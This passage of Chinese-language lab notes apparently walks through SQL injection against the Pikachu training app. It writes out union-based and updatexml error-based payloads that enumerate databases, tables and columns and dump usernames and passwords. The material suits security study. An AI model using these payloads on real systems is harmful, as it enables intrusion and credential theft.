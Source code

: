     - 之后我们来使用union来做一个SQL语句的拼接。输入构造好的语句a' union select database(),user(),version()#%

      ![](/image/sql/sql-6.png)

- information_schema注入

  - information_schema数据库是MySQL系统自带的数据库
  - 通过information_schema注入，我们可以将整个数据库内容全部窃取出来, 
    - 使用order by来判断查询的字段
    - 找出数据库的名称，输入vince' union select database(),user(),3#%
    - 获取pikachu数据库的**表名**，输入:u' union select table_schema ,table_name,3 from information_schema.tables where table_schema='pikachu'#
    - 获取pikachu数据库的**字段名**，输入： k' union select table_name,column_name,3 from information_schema.columns where table_name='users'#%
    - 最后获取**字段值**的内容，输入：kobe'union select username ,password,3 from users#%

- 基于函数的报错

  - 条件：后台没有屏蔽数据库报错信息,在语法发生错误时会输出在前端

  - **三个常用的用来报错的函数**

    - updatexml（）:函数是MYSQL对XML文档数据进行查询和修改的XPATH函数.

      1、爆数据库版本信息

      k' and updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1) #

      2、爆数据库当前用户

      k' and  updatexml(1,concat(0x7e,(SELECT user()),0x7e),1)#  

      3、爆数据库

      k' and updatexml(1,concat(0x7e,(SELECT database()),0x7e),1) #

      4、爆表

      获取数据库表名，输入：k'and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='pikachu')),0)#，但是反馈回的错误表示只能显示一行，所以采用limit来一行一行显示

      输入k' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='pikachu'limit 0,1)),0)#更改limit后面的数字limit 0完成表名遍历。
